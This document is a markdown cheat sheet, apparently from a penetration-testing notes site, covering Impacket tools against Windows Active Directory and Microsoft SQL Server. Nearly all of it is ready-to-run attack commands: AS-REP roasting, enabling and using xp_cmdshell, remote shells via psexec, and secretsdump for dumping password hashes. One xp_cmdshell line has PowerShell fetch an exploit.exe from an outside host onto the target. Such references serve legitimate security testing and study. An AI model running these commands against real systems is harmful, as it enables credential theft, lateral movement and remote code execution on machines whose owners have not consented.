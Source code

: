 ```yaml
---
title: Impacket
desc: Provides low level access to the packets. It also used to connect Microsoft SQL.
tags: [ActiveDirectory, ActiveRecon, MSSQL, Windows]
alts: [Bloodhound, CrackMapExec, Kerbrute, Mimikatz]
website:
render_with_liquid: false
---
```


```sh
impacket-netview -h
```

<br />

## impacket-GetNPUsers

Lists users and passwords is not required Kerberos pre auth. Used for ASREPRoasting.

```sh
# Get password (e.g. domain: 'example.local', username: 'admin')
impacket-GetNPUsers -dc-ip 10.0.0.1 -format hashcat example.local/admin
```

<br />

## impacket-mssqlclient

Establish an authenticated connection to Microsoft SQL.

```sh
impacket-mssqlclient -port 1433 DOMAIN/username:password@10.0.0.1 -windows-auth

# ------ Logged in ---------------------------------------------

SQL> enable_xp_cmdshell
SQL> disable_xp_cmdshell

# Execute commands
SQL> xp_cmdshell whoami
SQL> xp_cmdshell dir
SQL> xp_cmdshell .\exploit.exe
SQL> xp_cmdshell "powershell.exe pwd"
# Get files from external server
SQL> xp_cmdshell "powershell.exe wget -UseBasicParsing http://10.0.0.1:8000/exploit.exe -OutFile c:\\Users\Public\exploit.exe"
```

<br />

## impacket-psexec

Interactive shell on Windows host.

```sh
impacket-psexec username:password@10.0.0.1
```

<br />

## impacket-rpcdump

```sh
impacket-rpcdump -port 135 10.0.0.1
```

<br />

## impacket-secretsdump

Gets all password hashes.

```sh
# Basic
impacket-secretsdump example.local/username:password@10.0.0.1

# Only NTLM hashes and Kerberos keys
impacket-secretsdump -just-dc example.local/username:password@10.0.0.1

# Only NTLM hashes
impacket-secretsdump -just-dc-ntlm example.local/username:password@10.0.0.1

# SAM and SYSTEM
impacket-secretsdump -sam sam.bak -system system.bak local
```